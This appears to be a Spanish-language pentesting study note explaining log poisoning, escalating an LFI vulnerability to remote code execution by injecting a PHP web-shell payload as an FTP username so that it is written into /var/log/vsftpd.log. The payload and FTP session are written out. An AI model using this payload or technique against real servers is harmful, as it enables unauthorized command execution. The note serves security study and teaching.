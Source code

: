 Como podemos pasar de un [[LFI & RFI|LFI]] a un [[RCE]] haciendo lectura de un Log.

**Que son los Logs?**
Son archivos de datos que genera el sistema, esto contiene la informacion sobre patrones de uso, actividad, operaciones dentro del sistema, aplicaciones, servidor u otro servicio.

**Que es el archivo vsftpd.log?**
El archivo log vsftpd registra cualquier actividad de acuerdo al inicio de sesión o lo intentos fallidos de inicio de sesión por FTP, su ruta predeterminada `/var/log/vsftpd.log`.

**Que es un archivo auth.log?**
Contiene informacion de autorización del sistema, incluido los inicios de sesión de usuario y el mecanismo de autenticación que se utilizaron.

**Nota:** Si desea mas informacion sobre los diferentes archivos logs visite https://www.thegeekstuff.com/2011/08/linux-var-log-files/

Ahora si que es *Log Poisoning* es la técnica común mas utilizada para obtener una [[Revert shell]] de una vulnerabilidad [[LFI & RFI|LFI]]. Consiste en insertar entradas malintencionadas en los archivos logs.

Ahora supongamos que estamos frente a un LFI y queremos ver el `/var/log/auth.log` para aplicar un log Poisoning al servicio ssh pero no podemos leer el log, así que vamos por el servicio ftp y intentamos visualizar el log `/var/log/vsftpd.log` y lo visualizamos, ahora aplicaremos el envenenamiento el inicio de sesión de ftp.

	ftp host
	name: '<?php system($_REQUEST['commandInjection']); ?>'
	password: 
	530 Login incorrect.
	Login failed.

Si visualizamos el log nuevamente podemos ver nuestra injection de código y con esto tendremos un [[RCE]].

